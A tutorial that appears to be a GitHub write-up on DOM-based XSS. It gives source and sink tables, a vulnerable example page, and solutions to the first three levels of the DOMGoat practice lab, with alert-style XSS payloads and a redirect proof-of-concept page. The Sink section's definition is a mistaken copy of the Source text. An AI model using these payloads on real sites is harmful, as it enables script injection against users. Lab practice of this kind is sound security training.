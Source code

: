 
# DOM Practice analysis

**Dom are based on two terms: 1- Source, 2- Sink**

## Source:
```
Source is the location from which untrusted data is taken by the application (which can be controlled by user input) and passed on to the sink. 
There are 4 different categories of sources
```

| URL Based Source |  Navigation Based Source | Communication source | Storage Source |
|------------------|--------------------------|----------------------|----------------|
|	location	   | window.name 			  |   Ajax				 |   Cookies      |
|	location.href  | document.referer		  |   Web Sockets		 |  localStorage  |
|	location.search|						  |  Window Message		 |  SessionStorage|
|location.pathname | 						  |						 |				  |

## Sink:
```
Source is the location from which untrusted data is taken by the application (which can be controlled by user input) and passed on to the sink. 
There are 4 different categories of sources:
```

| Javascript      |  HTML Execution |  Javascript URI 	|
|  Execution Sink |     Sink		|    Sink			|
|-----------------|-----------------|-------------------|
| eval()		  |  innerHTML()    |    location       |
| setTimeout()    |  outerHTML()    |    location.href  |
|  setInterval()  | document.write()| location.replace()|
| Function()	  | 				| location.assign() |


### Here an example for Find vulnerable DOM XSS:

```html
<html>
    <p id="name">Hello<p>
    <script>
        var url = new URL(window.location.href);
        var name = url.searchParams.get("name");
        document.getElementById('name').innerHTML = 'Hello ' + name;
    </script>
</html>
```

**In the above example, you can see that the javaScript is searching a GET parameter called “name” and it’s writing its value dynamically into the DOM using innerHTML. So its vulnerable to DOM xss: `name=<svg/onload=alert(1)>`**

**So here, location.href is the source (where the untrusted data is coming from) while innerHTML is the sink (where the payload actually executed).**

# Let's get to out Practice Lab [DOMGoat]:

## Level 1:

```js
let hash = location.hash;
if (hash.length > 1) {
    let hashValueToUse = unescape(hash.substr(1));
    let msg = "Welcome <b>" + hashValueToUse + "</b>!!";
    document.getElementById("msgboard").innerHTML = msg;
}
```

**sink:** `innerHTML`
**source:** `location.hash`
**Solution:** #<svg/onload=alert(1)>

```
Here the `location.hash` is read and specifically unescaped (since modern browsers by default will urlencode the location.hash to avoid DOM XSS) and inserted into the div using innerHTML.
```


## Level 2:

```js
let rfr = document.referrer;
let paramValue = unescape(getPayloadParamValueFromUrl(rfr));
if (paramValue.length > 0) {
    let msg = "Welcome <b>" + paramValue + "</b>!!";
    document.getElementById("msgboard").innerHTML = msg;
} else {
    document.getElementById("msgboard").innerHTML = "Parameter named <b>payload</b> was not found in the referrer.";
}
```

**sink:**`innerHTML`
**source:**`document.referrer`
**Solution:** `https://domgo.at/cxss/example/1?payload=<svg/onload=alert(1)>` #When you click on Exercise 2: you will get alert

__If you look at the HTML source code, you can see the `getPayloadParamValueFromUrl()` defined which extracts the value of the GET parameter named `payload` after click to exercise 2:__
__The click are required insted of directy browsing to the URL because of th source in this exercise that `document.referrer` property.__
__We see from the vulnerable code that if a parameter called payload is available in the URL of the referrer, then this is extracted and passed to the sink.__

 - For real world poc: You can make a html code that redirect to vulnerable.site
```html
<html>
    <body>
        <h2>PoC for Exercise 2 of https://domgo.at</h2>
        <script>
            window.location="https://domgo.at/cxss/example/2"
        </script>
    </body>
</html>

```
`Save this as exercise2.html and host it locally (nginx/Apache/python/node/anything). Navigate to it using http://127.0.0.1/exercise2.html?payload=<svg%20onload=alert(document.domain)>`

## Level 3:

```js
let responseBody = xhr.responseText;
let responeBodyObject = JSON.parse(responseBody);
let msg = "Welcome <b>" + responeBodyObject.payload + "</b>!!";
document.getElementById("msgboard").innerHTML = msg;
```
 
**Sink:**`innerHTML`
**Source**`Ajax`
**Solution:**`<img src=x onerror=alert(1)>`

__The response from the Ajax request (emulated with the user input) is parsed on the client side and is written directly to DOM with innerHTML.__







































